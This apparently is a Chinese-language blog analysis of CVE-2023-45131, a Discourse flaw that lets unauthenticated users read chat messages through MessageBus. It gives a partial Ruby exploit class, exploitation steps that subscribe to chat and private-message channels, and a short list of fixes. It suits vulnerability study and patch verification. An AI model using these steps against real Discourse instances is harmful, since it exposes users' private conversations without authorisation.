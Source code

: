 ```yaml
---
date: 2025-08-06T21:46:50+08:00
title: "Discourse 3.1.1未授权访问漏洞分析：聊天消息泄露风险"
tags: [漏洞分析,Web安全,Discourse,未授权访问]
authors: qife
description: "本文详细分析了Discourse 3.1.1版本中存在的未授权访问漏洞(CVE-2023-45131)，攻击者无需认证即可访问私密聊天消息，CVSS评分7.5分。文章包含完整的漏洞利用代码和技术细节。"
---
```


# Discourse 3.1.1 - 未授权访问聊天消息漏洞分析

## 漏洞概述
- **CVE编号**: CVE-2023-45131
- **CVSS评分**: 7.5 (高危)
- **影响版本**: Discourse < 3.1.1稳定版, < 3.2.0.beta2
- **漏洞类型**: 未授权访问

## 技术细节

### 漏洞原理
该漏洞存在于Discourse的消息总线(MessageBus)实现中，允许未认证用户：
1. 获取MessageBus客户端ID
2. 订阅聊天频道
3. 访问私密消息
4. 实时监控聊天内容
5. 获取历史消息记录

### 漏洞验证代码
```ruby
#!/usr/bin/env ruby
require 'net/http'
require 'uri'
require 'json'
require 'openssl'
require 'base64'

class CVE202345131
  def initialize(target_url)
    @target_url = target_url.chomp('/')
    @results = []
    @message_bus_client_id = nil
    @csrf_token = nil
  end

  def run_exploit
    puts "\n[*] Testing CVE-2023-45131: Discourse Unauthenticated Chat Message Access"
    puts "[*] Target: #{@target_url}"
    
    test_messagebus_access
    test_chat_channel_enumeration
    test_private_message_access
    test_real_time_monitoring
    test_message_history_access
    test_user_enumeration_via_chat

    generate_report
  end

  private

  def test_messagebus_access
    puts "[*] Testing MessageBus unauthenticated access..."
    uri = URI("#{@target_url}/message-bus/poll")
    response = make_request(uri, 'GET')
    
    if response && response.code == '200'
      @message_bus_client_id = extract_client_id(response)
      @results << {
        vulnerability: "MessageBus Access",
        severity: "High",
        description: "Unauthenticated access to MessageBus endpoint confirmed",
        impact: "Can monitor real-time messages and notifications",
        client_id: @message_bus_client_id
      }
    end
  end

  # 其他测试方法省略...
end
```

## 漏洞利用流程
1. **获取MessageBus客户端ID**
   - 访问`/message-bus/poll`端点
   - 从响应头或响应体中提取客户端ID

2. **枚举聊天频道**
   - 订阅`/chat/new-messages`等频道
   - 分析响应获取活跃聊天频道

3. **访问私密消息**
   - 订阅`/private-messages`频道
   - 获取未加密的私密聊天内容

4. **实时监控**
   - 持续轮询消息总线
   - 捕获实时聊天内容

## 修复建议
1. 升级到Discourse 3.1.1稳定版或更高版本
2. 对MessageBus端点实施严格的身份验证
3. 审查并限制聊天相关API的访问权限
4. 监控MessageBus访问日志中的可疑活动

## 完整利用代码
文章提供了完整的Ruby利用脚本，包含以下功能：
- 消息总线访问测试
- 聊天频道枚举
- 私密消息访问
- 实时监控
- 历史消息获取
- 用户枚举功能

该脚本可自动化检测目标Discourse实例是否存在此漏洞。